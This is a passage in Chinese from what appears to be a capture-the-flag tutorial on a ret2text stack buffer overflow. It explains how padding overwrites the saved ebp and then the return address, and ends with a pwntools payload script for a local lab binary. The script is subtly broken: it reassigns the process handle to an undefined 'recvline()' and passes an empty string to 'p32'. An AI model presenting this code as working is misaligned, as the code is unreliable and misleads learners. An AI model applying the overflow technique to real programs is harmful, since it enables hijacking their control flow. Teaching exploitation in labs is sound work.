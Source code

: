 再覆盖4个字节，就可以把previous ebp也给覆盖掉

我们只要写入20个A就可以溢出到ebp，父函数的ebp给覆盖掉

[![](assets/1701612384-04e64d3cbdaee9f64620cc8a21c10f5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629202927-96f74986-1678-1.png)

[![](assets/1701612384-3114acda18de3e8a43e06505326795f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629202931-993a1a5c-1678-1.png)

```plain
0x1c-0x18=0x04=4
```

如果我们再写4个字节就可以将返回地址也给覆盖掉

```plain
from pwn import *
io = process("./ret2text")
io = recvline()
payload = b'A' * 16 + b'BBBB' + p32('')
```

[![](assets/1701612384-8427247b905795ab07e9d96d782757ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629202936-9c51584a-1678-1.png)

